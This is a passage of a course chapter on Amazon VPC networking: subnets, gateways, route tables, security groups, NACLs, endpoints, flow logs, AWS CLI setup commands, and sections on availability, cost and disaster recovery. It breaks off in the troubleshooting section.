







# Chapter 04 — Amazon VPC (Virtual Private Cloud)

---

## Prerequisite Chapters
- Chapter 01 — AWS IAM (security groups, NACLs, roles)
- Chapter 03 — Amazon EC2 (instances, ENIs)

## Used In Production Practicals
- Practical 07 — Multi-AZ Network
- Practical 08 — Private Connectivity (VPN, PrivateLink)
- Practical 15 — Flagship Production Architecture
- Every practical that uses EC2, RDS, ECS, Lambda in VPC

## Includes
This chapter covers **VPC + Internet Gateway + NAT Gateway + Route Tables + Subnets + Security Groups + NACLs** (all networking components in one place).

---

## 1. Learning Objectives

By the end of this chapter, you will be able to:

1. **Design** a production VPC architecture with public and private subnets across multiple AZs.
2. **Configure** Internet Gateways, NAT Gateways, and Route Tables.
3. **Implement** Security Groups and NACLs for defense in depth.
4. **Create** VPC endpoints for private access to AWS services.
5. **Set up** VPC peering, Transit Gateway, and VPN connectivity.
6. **Enable** VPC Flow Logs for network monitoring and troubleshooting.
7. **Troubleshoot** connectivity issues, routing problems, and security group misconfigurations.
8. **Answer** interview questions about AWS networking.

---

## 2. What is Amazon VPC?

Amazon VPC is your **private, isolated network** in the AWS cloud. It's like building your own data center network — you control the IP ranges, subnets, routing, and firewall rules.

### Key Characteristics
- **Logically isolated** — your VPC is completely separate from other customers
- **Full control** — you define CIDR blocks, subnets, route tables, gateways
- **Multi-AZ** — span across multiple Availability Zones for HA
- **Integration** — most AWS services run inside or connect to your VPC
- **Free** — the VPC itself costs nothing (NAT Gateway, VPN have costs)

### Networking Components (All in This Chapter)

| Component | Purpose | Analogy |
|-----------|---------|---------|
| **VPC** | Your isolated network | Your building |
| **Subnet** | Segment of VPC in one AZ | Floor of the building |
| **Internet Gateway (IGW)** | Connects VPC to the internet | Front door to the street |
| **NAT Gateway** | Private subnets → internet (outbound only) | Mail room (sends out, doesn't accept walk-ins) |
| **Route Table** | Directs traffic to the right destination | Building directory signs |
| **Security Group** | Instance-level firewall (stateful) | Room door lock (remembers who entered) |
| **NACL** | Subnet-level firewall (stateless) | Floor security checkpoint |
| **VPC Endpoint** | Private connection to AWS services | Internal elevator to AWS |
| **VPC Peering** | Connect two VPCs | Skybridge between buildings |
| **Transit Gateway** | Hub connecting multiple VPCs/VPNs | Central transit station |

---

## 3. Why Do We Need It?

### Without VPC
```
AWS resources on shared, flat network
  → No isolation between customers
  → No control over IP addressing
  → No private networking
  → Can't connect to on-premises
```

### With VPC
```
Your own isolated network
  → Complete control over IP ranges
  → Public and private subnets
  → Internet access only where you want it
  → Connect securely to on-premises (VPN/Direct Connect)
  → Firewall rules at instance AND subnet level
```

---

## 4. Real-World Production Use Cases

### 1. Standard Three-Tier Architecture
```
Public Subnets:  ALB, NAT Gateway
Private Subnets: EC2 application servers, ECS containers
Data Subnets:    RDS, ElastiCache (most isolated)
```

### 2. Multi-Account Shared VPC
Central networking account creates VPC + subnets. Application accounts deploy resources into shared subnets via RAM.

### 3. Hybrid Cloud
VPC connected to on-premises data center via Site-to-Site VPN or Direct Connect. Applications in VPC communicate with on-premises databases.

### 4. Microservices Isolation
Each microservice team gets their own VPC with VPC peering or Transit Gateway for inter-service communication.

---

## 5. Core Concepts

### CIDR Blocks (IP Address Ranges)
```
CIDR = Classless Inter-Domain Routing = "How many IP addresses do I get?"

VPC CIDR: 10.0.0.0/16 = 65,536 IP addresses
  ├── Subnet A: 10.0.1.0/24 = 256 IPs (251 usable — AWS reserves 5)
  ├── Subnet B: 10.0.2.0/24 = 256 IPs
  ├── Subnet C: 10.0.3.0/24 = 256 IPs
  └── Subnet D: 10.0.4.0/24 = 256 IPs

AWS Reserved IPs per subnet (5):
  .0 = Network address
  .1 = VPC router
  .2 = DNS server
  .3 = Reserved for future
  .255 = Broadcast (not supported but reserved)

Common CIDR sizes:
  /16 = 65,536 IPs (large VPC)
  /20 = 4,096 IPs (medium VPC)
  /24 = 256 IPs (typical subnet)
  /28 = 16 IPs (smallest subnet allowed)
```

### Subnets

| Type | Internet Access | Use For |
|------|----------------|---------|
| **Public Subnet** | Yes (via IGW) | ALB, NAT Gateway, Bastion Host |
| **Private Subnet** | Outbound only (via NAT GW) | EC2, ECS, Lambda |
| **Isolated Subnet** | No internet access | RDS, ElastiCache |

```
Key Rule: A subnet is public if its route table has a route to an IGW
          A subnet is private if it doesn't
```

### Internet Gateway (IGW)
```
IGW = The "front door" connecting your VPC to the internet

Properties:
  - One IGW per VPC
  - Horizontally scaled, redundant, HA (managed by AWS)
  - No bandwidth bottleneck
  - FREE (no charge for the IGW itself)

For a subnet to be "public":
  1. Attach IGW to VPC
  2. Subnet route table: 0.0.0.0/0 → IGW
  3. Instances must have a public IP or Elastic IP
```

### NAT Gateway
```
NAT Gateway = Allows private subnet instances to reach the internet
              (for updates, patches, API calls) without being reachable FROM the internet

Properties:
  - Lives in a PUBLIC subnet
  - Has an Elastic IP
  - Managed by AWS (HA within an AZ)
  - For multi-AZ HA: one NAT GW per AZ (recommended)
  - COSTS money (~$0.045/hour + $0.045/GB processed)

Traffic Flow:
  Private Instance → NAT Gateway (public subnet) → IGW → Internet
  Internet → ✗ Cannot reach private instance (one-way)
```

### Route Tables
```
Route Table = Directions for where network traffic should go

Public Subnet Route Table:
  Destination      Target
  10.0.0.0/16      local          (VPC internal traffic)
  0.0.0.0/0        igw-abc123     (all other traffic → Internet Gateway)

Private Subnet Route Table:
  Destination      Target
  10.0.0.0/16      local          (VPC internal traffic)
  0.0.0.0/0        nat-abc123     (all other traffic → NAT Gateway)

Isolated Subnet Route Table:
  Destination      Target
  10.0.0.0/16      local          (VPC internal traffic ONLY)
  (no 0.0.0.0/0 route — no internet access)

Rules:
  - Most specific route wins
  - "local" route cannot be removed
  - Each subnet is associated with exactly one route table
  - One route table can be associated with multiple subnets
```

### Security Groups vs NACLs

| Feature | Security Group | NACL |
|---------|---------------|------|
| **Level** | Instance (ENI) | Subnet |
| **State** | Stateful (return traffic auto-allowed) | Stateless (must allow return traffic explicitly) |
| **Rules** | ALLOW only | ALLOW and DENY |
| **Evaluation** | All rules evaluated together | Rules evaluated in order (number) |
| **Default** | Deny all inbound, allow all outbound | Allow all (default NACL) |
| **Best For** | Primary firewall | Additional layer (defense in depth) |

### Security Group Example
```
Web Server SG:
  Inbound:
    TCP 80  from ALB-SG         (HTTP from load balancer only)
    TCP 443 from ALB-SG         (HTTPS from load balancer only)
  Outbound:
    All     to 0.0.0.0/0        (allow all outbound)

Database SG:
  Inbound:
    TCP 5432 from WebServer-SG  (PostgreSQL from web servers only)
  Outbound:
    All     to 0.0.0.0/0

Key: Reference SGs, not IP addresses. If web server IPs change, 
     the SG reference still works.
```

### NACL Example
```
Private Subnet NACL:
  Inbound Rules (evaluated in order):
    Rule 100: ALLOW TCP 80 from 10.0.0.0/16
    Rule 110: ALLOW TCP 443 from 10.0.0.0/16
    Rule 120: ALLOW TCP 1024-65535 from 0.0.0.0/0  (return traffic from internet)
    Rule *:   DENY all                               (default deny)

  Outbound Rules:
    Rule 100: ALLOW TCP 80 to 0.0.0.0/0
    Rule 110: ALLOW TCP 443 to 0.0.0.0/0
    Rule 120: ALLOW TCP 1024-65535 to 10.0.0.0/16   (return traffic to VPC)
    Rule *:   DENY all
```

### VPC Endpoints

| Type | Protocol | For | Example |
|------|----------|-----|---------|
| **Gateway Endpoint** | Route table | S3, DynamoDB (free) | Access S3 without internet |
| **Interface Endpoint** | ENI (PrivateLink) | Most other services | Access SQS, KMS, CloudWatch |

```
Without VPC Endpoint:
  EC2 (private) → NAT Gateway → IGW → Internet → S3
  Cost: NAT Gateway data processing ($0.045/GB)

With Gateway Endpoint:
  EC2 (private) → VPC Endpoint → S3
  Cost: FREE (no data processing charge)
  
  Savings on S3-heavy workloads: potentially thousands $/month
```

---

## 6. Architecture

### Production VPC Architecture



### Subnet Strategy
```
VPC: 10.0.0.0/16 (65,536 IPs)

AZ-A:
  Public:  10.0.1.0/24  (ALB, NAT GW)
  Private: 10.0.3.0/24  (EC2, ECS, Lambda)
  Data:    10.0.5.0/24  (RDS, ElastiCache)

AZ-B:
  Public:  10.0.2.0/24  (ALB, NAT GW)
  Private: 10.0.4.0/24  (EC2, ECS, Lambda)
  Data:    10.0.6.0/24  (RDS, ElastiCache)

Future AZ-C (reserved):
  Public:  10.0.7.0/24
  Private: 10.0.8.0/24
  Data:    10.0.9.0/24
```

---

## 7. Important Components

### VPC Flow Logs
```bash
# Create VPC Flow Log → CloudWatch Logs
aws ec2 create-flow-logs \
    --resource-type VPC \
    --resource-ids vpc-0abc123 \
    --traffic-type ALL \
    --log-destination-type cloud-watch-logs \
    --log-group-name /vpc/flow-logs \
    --deliver-logs-permission-arn arn:aws:iam::123:role/VPCFlowLogRole

# Flow Log Format:
# <version> <account-id> <interface-id> <srcaddr> <dstaddr> <srcport> <dstport> <protocol> <packets> <bytes> <start> <end> <action> <log-status>
# 2 123456789012 eni-abc123 10.0.1.5 10.0.3.10 443 52000 6 20 4000 1630000000 1630000060 ACCEPT OK
```

### VPC Peering
```
VPC-A (10.0.0.0/16) ←→ VPC-B (172.16.0.0/16)

Properties:
  - Non-transitive (A↔B and B↔C does NOT mean A↔C)
  - Cross-account and cross-region supported
  - CIDR blocks must NOT overlap
  - Route tables in BOTH VPCs must be updated

Use When: Connecting 2-3 VPCs
Don't Use When: Connecting many VPCs (use Transit Gateway)
```

### Transit Gateway
```
Central hub connecting multiple VPCs and VPN/Direct Connect:

         VPC-A ──┐
         VPC-B ──┤
         VPC-C ──┼── Transit Gateway ── On-Premises (VPN)
         VPC-D ──┤
         VPC-E ──┘

Advantages:
  - Hub-and-spoke (not mesh)
  - Transitive routing (A can reach C through TGW)
  - Centralized control
  - Supports thousands of VPCs
```

---

## 8. How It Works

### Packet Flow: Public Instance Reaching Internet
```
1. EC2 instance (10.0.1.10) sends packet to 8.8.8.8 (Google DNS)
2. Route table lookup: 0.0.0.0/0 → igw-abc123
3. Security Group: outbound rule allows all → PASS
4. NACL: outbound rule allows → PASS
5. Packet reaches IGW
6. IGW translates private IP → public IP (NAT)
7. Packet goes to internet
8. Response comes back → IGW → NACL → SG → instance
```

### Packet Flow: Private Instance Reaching Internet
```
1. EC2 instance (10.0.3.10) sends packet to pypi.org
2. Route table lookup: 0.0.0.0/0 → nat-abc123
3. Security Group: outbound allows → PASS
4. NACL: outbound allows → PASS
5. Packet reaches NAT Gateway (in public subnet)
6. NAT Gateway translates: 10.0.3.10 → NAT GW's Elastic IP
7. NAT GW route table: 0.0.0.0/0 → igw-abc123
8. Packet goes through IGW to internet
9. Response comes back the same path (reverse)
```

---

## 9. AWS Console Walkthrough

### Step 1 — Create VPC
1. **VPC Console** → **Create VPC**
2. Choose **VPC and more** (creates subnets, route tables, IGW, NAT GW)
3. Configure:
   - VPC CIDR: `10.0.0.0/16`
   - 2 AZs
   - 2 public subnets, 2 private subnets
   - 1 NAT Gateway per AZ (for HA)
   - VPC endpoints: S3 Gateway
4. Click **Create VPC**

### Step 2 — Verify Configuration
1. Check route tables:
   - Public RT has `0.0.0.0/0 → igw`
   - Private RT has `0.0.0.0/0 → nat`
2. Check security groups
3. Check VPC Flow Logs enabled

---

## 10. AWS CLI Commands

### Create VPC
```bash
# Create VPC
VPC_ID=$(aws ec2 create-vpc \
    --cidr-block 10.0.0.0/16 \
    --tag-specifications '[{"ResourceType":"vpc","Tags":[{"Key":"Name","Value":"prod-vpc"}]}]' \
    --query 'Vpc.VpcId' --output text)

# Enable DNS resolution
aws ec2 modify-vpc-attribute --vpc-id $VPC_ID --enable-dns-support
aws ec2 modify-vpc-attribute --vpc-id $VPC_ID --enable-dns-hostnames
```

### Create Subnets
```bash
# Public Subnet AZ-A
PUB_A=$(aws ec2 create-subnet --vpc-id $VPC_ID \
    --cidr-block 10.0.1.0/24 --availability-zone ap-south-1a \
    --tag-specifications '[{"ResourceType":"subnet","Tags":[{"Key":"Name","Value":"pub-a"}]}]' \
    --query 'Subnet.SubnetId' --output text)

# Private Subnet AZ-A
PRIV_A=$(aws ec2 create-subnet --vpc-id $VPC_ID \
    --cidr-block 10.0.3.0/24 --availability-zone ap-south-1a \
    --tag-specifications '[{"ResourceType":"subnet","Tags":[{"Key":"Name","Value":"priv-a"}]}]' \
    --query 'Subnet.SubnetId' --output text)
```

### Create Internet Gateway
```bash
IGW_ID=$(aws ec2 create-internet-gateway \
    --tag-specifications '[{"ResourceType":"internet-gateway","Tags":[{"Key":"Name","Value":"prod-igw"}]}]' \
    --query 'InternetGateway.InternetGatewayId' --output text)

aws ec2 attach-internet-gateway --internet-gateway-id $IGW_ID --vpc-id $VPC_ID
```

### Create NAT Gateway
```bash
# Allocate Elastic IP for NAT Gateway
EIP_ID=$(aws ec2 allocate-address --domain vpc --query 'AllocationId' --output text)

# Create NAT Gateway in public subnet
NAT_ID=$(aws ec2 create-nat-gateway \
    --subnet-id $PUB_A --allocation-id $EIP_ID \
    --tag-specifications '[{"ResourceType":"natgateway","Tags":[{"Key":"Name","Value":"nat-a"}]}]' \
    --query 'NatGateway.NatGatewayId' --output text)
```

### Configure Route Tables
```bash
# Create public route table
PUB_RT=$(aws ec2 create-route-table --vpc-id $VPC_ID \
    --query 'RouteTable.RouteTableId' --output text)
aws ec2 create-route --route-table-id $PUB_RT \
    --destination-cidr-block 0.0.0.0/0 --gateway-id $IGW_ID
aws ec2 associate-route-table --route-table-id $PUB_RT --subnet-id $PUB_A

# Create private route table
PRIV_RT=$(aws ec2 create-route-table --vpc-id $VPC_ID \
    --query 'RouteTable.RouteTableId' --output text)
aws ec2 create-route --route-table-id $PRIV_RT \
    --destination-cidr-block 0.0.0.0/0 --nat-gateway-id $NAT_ID
aws ec2 associate-route-table --route-table-id $PRIV_RT --subnet-id $PRIV_A
```

### Create VPC Endpoint (S3 Gateway)
```bash
aws ec2 create-vpc-endpoint \
    --vpc-id $VPC_ID \
    --service-name com.amazonaws.ap-south-1.s3 \
    --route-table-ids $PRIV_RT
```

### Enable VPC Flow Logs
```bash
aws ec2 create-flow-logs \
    --resource-type VPC --resource-ids $VPC_ID \
    --traffic-type ALL \
    --log-destination-type cloud-watch-logs \
    --log-group-name /vpc/prod-flow-logs \
    --deliver-logs-permission-arn arn:aws:iam::123:role/FlowLogRole
```

---

## 11. Hands-On Practical

### Practical: Build Production VPC from Scratch

#### Objective
Create a complete production VPC with public/private subnets, IGW, NAT Gateway, route tables, and security groups.

#### Architecture


*(Full CLI commands provided in Section 10 above)*

#### Validation
```bash
# Verify VPC
aws ec2 describe-vpcs --vpc-ids $VPC_ID

# Verify subnets
aws ec2 describe-subnets --filters "Name=vpc-id,Values=$VPC_ID" \
    --query 'Subnets[*].[SubnetId,CidrBlock,AvailabilityZone]' --output table

# Test connectivity: launch instance in private subnet
# → should reach internet via NAT Gateway
# → should NOT be reachable from internet
```

---

## 12. Production Architecture

### Production VPC Config
```
VPC:
  CIDR: 10.0.0.0/16
  DNS Resolution: Enabled
  DNS Hostnames: Enabled
  Flow Logs: ALL traffic → CloudWatch + S3

Subnets (per AZ, 2 AZs minimum):
  Public: /24 (ALB, NAT GW)
  Private: /24 (compute)
  Data: /24 (RDS, ElastiCache)

Gateways:
  1 IGW (free)
  1 NAT GW per AZ (HA, ~$33/mo each)

Endpoints:
  S3 Gateway (free)
  DynamoDB Gateway (free)
  Interface: SQS, SNS, KMS, CloudWatch, ECR (PrivateLink)

Security:
  SGs: reference other SGs, not CIDRs
  NACLs: default allow (additional restriction only if needed)
  Flow Logs: enabled for audit and troubleshooting
```

### Production VPC Architecture


---

## 13. Security Best Practices

1. **Custom VPC** — never use the default VPC for production
2. **Private subnets for compute** — EC2, ECS, Lambda run in private subnets
3. **Private subnets for data** — RDS, ElastiCache in isolated data subnets
4. **Security Group referencing** — allow traffic from SG IDs, not CIDR ranges
5. **Least privilege SG rules** — only open required ports to required sources
6. **No SSH from 0.0.0.0/0** — use Systems Manager Session Manager or bastion in private subnet
7. **NACLs as secondary defense** — use for broad subnet-level blocking (e.g., deny known malicious CIDRs)
8. **VPC Flow Logs on all traffic** — send to CloudWatch Logs + S3 for analysis
9. **VPC endpoints for AWS services** — avoid sending internal traffic over the internet
10. **DNS hostnames + resolution** — required for VPC endpoints and private DNS

### Security Group Layering Pattern
```
Internet → ALB SG (port 443 from 0.0.0.0/0)
              ↓
         App SG (port 8080 from ALB SG only)
              ↓
         DB SG (port 5432 from App SG only)
              ↓
         Cache SG (port 6379 from App SG only)

Each layer only accepts traffic from the layer above.
Never allow 0.0.0.0/0 except on ALB for HTTPS.
```

---

## 14. High Availability

```
NAT Gateway HA:
  - 1 NAT Gateway per AZ (not shared across AZs)
  - Each private subnet routes to NAT GW in its own AZ
  - If AZ-A fails, AZ-B NAT GW continues independently
  - Cost: ~$33/month per NAT GW + $0.045/GB data

Subnet Spanning:
  - Minimum 2 AZs (3 AZs recommended for critical workloads)
  - Each AZ has: public + private + data subnet
  - All tiers (ALB, compute, database) span multiple AZs

Route Table Isolation:
  - Separate route table per AZ for private subnets
  - Each private RT routes 0.0.0.0/0 to its own AZ's NAT GW
  - Public subnets can share one route table (all point to IGW)

DNS & Endpoints:
  - VPC endpoints are regionally scoped (survive AZ failure)
  - Gateway endpoints (S3, DynamoDB) work across all AZs automatically
  - Interface endpoints: deploy in multiple AZs for HA
```

---

## 15. Scalability

```
CIDR Planning for Growth:
  - VPC CIDR: /16 (65,536 IPs) — plan for maximum growth
  - Subnet CIDR: /24 (251 usable IPs per subnet, AWS reserves 5)
  - Secondary CIDRs: can add up to 4 additional CIDR blocks to VPC
  - Never use /28 subnets (only 11 usable IPs)

Subnet Scalability:
  - If a /24 fills up, create additional subnets in the same AZ
  - Use secondary CIDRs (e.g., 100.64.0.0/16) for expansion
  - Plan: 6 subnets minimum (public + private + data × 2 AZs)

Network Throughput:
  - IGW: no bandwidth limit (scales automatically)
  - NAT GW: 100 Gbps burst, 45 Gbps sustained per gateway
  - VPC peering: no bandwidth limit (same region)
  - Interface endpoints: 10 Gbps per AZ

Multi-Account Scaling:
  - VPC peering: works for small number of VPCs
  - Transit Gateway: hub-and-spoke for 10+ VPCs
  - RAM (Resource Access Manager): share subnets across accounts
  - Plan non-overlapping CIDRs: 10.0.0.0/16, 10.1.0.0/16, 10.2.0.0/16, etc.
```

---

## 16. Monitoring & Observability

```
VPC Flow Logs:
  - Enable on VPC level (captures all ENI traffic)
  - Log destination: CloudWatch Logs (real-time analysis) + S3 (long-term storage)
  - Fields: srcaddr, dstaddr, srcport, dstport, protocol, action (ACCEPT/REJECT)
  - Use for: security audit, troubleshooting, compliance
  - Cost: ingestion + storage charges

CloudWatch Metrics:
  - NAT Gateway: BytesOutToDestination, PacketsDropCount, ActiveConnectionCount
  - VPN: TunnelState (0 = down, 1 = up), TunnelDataIn/Out
  - Transit Gateway: BytesIn, BytesOut, PacketDropCount

Network Monitoring:
  - Reachability Analyzer: test path connectivity between resources
  - Network Access Analyzer: identify unintended network access
  - Traffic Mirroring: copy network traffic for deep packet inspection

Alarms to Set:
  NAT GW PacketsDropCount > 0 → alert (capacity issue)
  NAT GW ErrorPortAllocation > 0 → alert (port exhaustion)
  VPN TunnelState = 0 → alert (tunnel down)
  Flow Log REJECT count spike → alert (possible attack)
```

---

## 17. Cost Optimization

```
NAT Gateway Costs (biggest VPC expense):
  - Hourly: $0.045/hour (~$33/month per gateway)
  - Data processing: $0.045/GB
  - Fix: S3 Gateway endpoint = FREE (saves $0.045/GB for S3 traffic)
  - Fix: DynamoDB Gateway endpoint = FREE
  - Fix: Interface endpoints for high-volume services (ECR, CloudWatch)
  - Analysis: check NAT GW BytesOutToDestination — if S3 is top destination, add endpoint

VPC Endpoint Costs:
  - Gateway endpoints (S3, DynamoDB): FREE
  - Interface endpoints: $0.01/hour (~$7.20/month) + $0.01/GB
  - Only create interface endpoints for services you frequently access

Data Transfer:
  - Same AZ: free
  - Cross-AZ: $0.01/GB each way ($0.02/GB round trip)
  - Cross-region: $0.02/GB
  - Minimize cross-AZ traffic: use AZ-aware routing

IP Address Costs:
  - Public IPv4 addresses: $0.005/hour per address (~$3.60/month)
  - Elastic IPs (unattached): $0.005/hour (charge for NOT using them)
  - Use private IPs + NAT GW where possible to reduce public IP costs

Cost Reduction Checklist:
  ✅ S3 Gateway endpoint (saves NAT costs)
  ✅ DynamoDB Gateway endpoint (saves NAT costs)
  ✅ Minimize public IPs (use private + NAT)
  ✅ Release unused Elastic IPs
  ✅ AZ-aware traffic routing
  ✅ Review NAT GW data processing monthly
```

---

## 18. Disaster Recovery

```
Single-Region DR:
  - Multi-AZ subnets: survive AZ failure automatically
  - NAT GW per AZ: independent outbound connectivity
  - ALB spans AZs: automatic traffic redistribution

Cross-Region DR:
  - Replicate VPC design in DR region (same CIDR structure)
  - Use Infrastructure as Code (CloudFormation/Terraform) for identical VPC
  - Cross-region VPC peering for data replication traffic
  - Route 53 health checks → failover routing to DR region

Hybrid DR (On-Premises ↔ AWS):
  - Primary: Site-to-Site VPN (quick to set up, internet-based)
  - Production: AWS Direct Connect (dedicated, consistent latency)
  - Both: use as backup for each other (VPN as DX failover)

Recovery Strategies:
  Strategy          | RTO      | Cost    | How
  ─────────────────────────────────────────────────────
  Backup & Restore  | Hours    | Low     | IaC deploys VPC in DR region
  Pilot Light       | 30 min   | Medium  | VPC pre-built, core infra running
  Warm Standby      | Minutes  | Higher  | Full VPC + scaled-down services
  Active-Active     | Near-0   | Highest | Full VPC + full services both regions

VPC DR Checklist:
  - [ ] VPC design documented as IaC (CloudFormation/Terraform)
  - [ ] DR region VPC uses non-overlapping CIDRs
  - [ ] Cross-region peering or Transit Gateway configured
  - [ ] Route 53 health checks + failover routing
  - [ ] VPN/Direct Connect redundancy tested
```

---

## 19. Troubleshooting

### Problem 1: Instance Can't Reach Internet (Private Subnet)
```bash
# Check route table
aws ec2 describe-route-tables --filters "Name=association.subnet-id,Values=$SUBNET_ID" \
    --query 'RouteTables[0].Routes'

# Check: Does route table have 0.0.0.0/0 → nat-gateway?
# Check: Is NAT Gateway in an "available" state?
